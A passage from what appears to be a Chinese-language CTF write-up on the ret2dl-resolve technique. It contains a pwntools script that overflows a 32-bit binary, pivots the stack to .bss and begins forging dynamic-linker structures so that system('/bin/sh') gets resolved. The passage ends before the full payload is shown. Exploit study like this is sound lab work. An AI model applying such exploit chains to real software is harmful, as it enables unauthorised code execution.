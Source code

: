 ![Alt](img/plt-got25.png)

调试发现跳转到`write_plt_without_push_reloc_arg`上，还是会直接跳转到`PLT[0]`，所以可以把`write_plt_without_push_reloc_arg`改成`PLT[0]`的地址。
接下来就需要在新栈上伪造两个结构体

```python

    from pwn import *

    write_got = 0x0804a018
    read_plt = 0x08048310
    plt0_addr = 0x08048300
    leave_ret = 0x08048482
    pop3_ret = 0x08048519
    pop_ebp_ret = 0x0804851b
    write_got = 0x0804a018
    new_stack_addr = 0x0804a500                                                     # bss与got表相邻，_dl_fixup中会降低栈后传参，设置离bss首地址远一点防止参数写入非法地址出错
    relplt_addr = 0x080482b0                                                        # .rel.plt的首地址，通过计算首地址和新栈上我们伪造的结构体Elf32_Rel偏移构造reloc_arg
    dymsym_addr = 0x080481cc                                                        # .dynsym的首地址，通过计算首地址和新栈上我们伪造的Elf32_Sym结构体偏移构造Elf32_Rel.r_info
    dynstr_addr = 0x0804822c                                                        # .dynstr的首地址，通过计算首地址和新栈上我们伪造的函数名字符串system偏移构造Elf32_Sym.st_name

    p = process('/home/nop/Desktop/level3')

    payload = ""
    payload += 'A'*140                                                              # padding
    payload += p32(read_plt)                                                        # 调用read函数往新栈写值，防止leave; retn到新栈后出现ret到地址0上导致出错
    payload += p32(pop3_ret)                                                        # read函数返回后从栈上弹出三个参数,为了后面能够将新的栈顶pop给ebp(read函数执行完后，参数仍旧在栈中)
    payload += p32(0)                                                               # fd = 0
    payload += p32(new_stack_addr)                                                  # buf = new_stack_addr
    payload += p32(0x400)                                                           # size = 0x400
    payload += p32(pop_ebp_ret)                                                     # 把新栈顶给ebp，接下来利用leave指令把ebp的值赋给esp
    payload += p32(new_stack_addr)
    payload += p32(leave_ret)                                                       # ret执行之后，esp执行payload1+4即p32(write_plt_without_push_reloc_arg)的位置

    p.send(payload)
    sleep(1)

    fake_Elf32_Rel_addr = new_stack_addr + 0x50                                     # 在新栈上选择一块空间放伪造的Elf32_Rel结构体，结构体大小为8字节
    fake_Elf32_Sym_addr = new_stack_addr + 0x5c                                     # 在伪造的Elf32_Rel结构体后面接上伪造的Elf32_Sym结构体，结构体大小为0x10字节，需要使结构体首地址对齐
    binsh_addr = new_stack_addr + 0x74                                              # 把/bin/sh\x00字符串放在最后面

```